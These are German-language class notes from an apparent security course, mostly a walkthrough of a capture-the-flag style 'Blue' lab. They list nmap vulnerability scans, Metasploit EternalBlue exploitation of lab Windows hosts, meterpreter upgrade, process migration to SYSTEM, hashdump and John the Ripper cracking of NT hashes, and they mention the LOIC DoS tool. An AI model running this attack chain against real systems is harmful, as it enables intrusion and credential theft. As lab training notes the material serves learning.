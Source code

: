 # **Mitschrift**
#### Datum: 29.04.2020
### **Thema: gesetzliche Angelegeneheiten**
[Artikel Zur Strafe heise.de](https://www.heise.de/ix/artikel/Zur-Strafe-1892408.html?artikelseite=&view=)

---
### **Thema: TCP** 
![img](https://upload.wikimedia.org/wikipedia/commons/thumb/9/98/Tcp-handshake.svg/1024px-Tcp-handshake.svg.png)

![img2](https://2.bp.blogspot.com/-Q1OvitIDVFE/T9opuETUwcI/AAAAAAAACB4/T1TaXfGxj94/s1600/Low-Orbit-Ion-Cannon.png)


- Ist ein "**nicht legales** Tool" für Dos-Angriffe **"Benutzung auf eigene Gefahr"**
[![IMAGE ALT TEXT](https://tse2.mm.bing.net/th?id=OIP.szMmUNZjK6gT6qrs8uhk9QHaD4&pid=Api)](https://youtu.be/Bbrkc7AXtKg "Video Title")
- Tutorial 
---

### **Sonnleiter Era**
 ``` 
- sudo openvpn exotechly.ovpn &
- ip a
- 10.9.41.189
- nmap 10.10.125.160 | tee nmap-standard 
- nmap --script vuln -p 135,139,445 10.9.41.189 
  - um herauszufinden ob es sich um eine Windows Maschine handelt 
- nmap --script vuln -p 135,149,445 10.10.227.183 |tee nmap-vuln
 ```
# Zweite Session 

```
1. nmap -sV -sC --script vuln -oN blue.nmap 10.10.137.78
2. msfconsole
3. search ms17
4. search eternal
5. use 3 
6. show options
7. set rhosts 10.10.73.63
=> remote host (target)
8. run 
9.C:\Windows\system32>
Optional
set rhots 10.10.201.164
run
exploit
show options
set LPORT 4445
```
## Task 3
```
1. use post/multi/manage/shell_to_meterpreter
2. show options
3. set session 1
4. run 
5. session 
6. sessions 
=> wir sollten jetzt eine 2 Session haben. 
7. sessions -i 2
=> Startet eine Interaktion 
8. getuid
=> NT AUTHORITIY\SYSTEM
9. shell
10. whoami
11. strg + z
12. ps
=> spoolsv.exe, hängt sich an diesen Prozessor, x64, NT AUTHORITY\SYSTEM
13. migrate (Prozessid)
14. getuid
15. hashdump
=> copy key vom john
16. echo "john"
17. john jon.hash --format=NT --wordlist=/opt/rockyou.txt

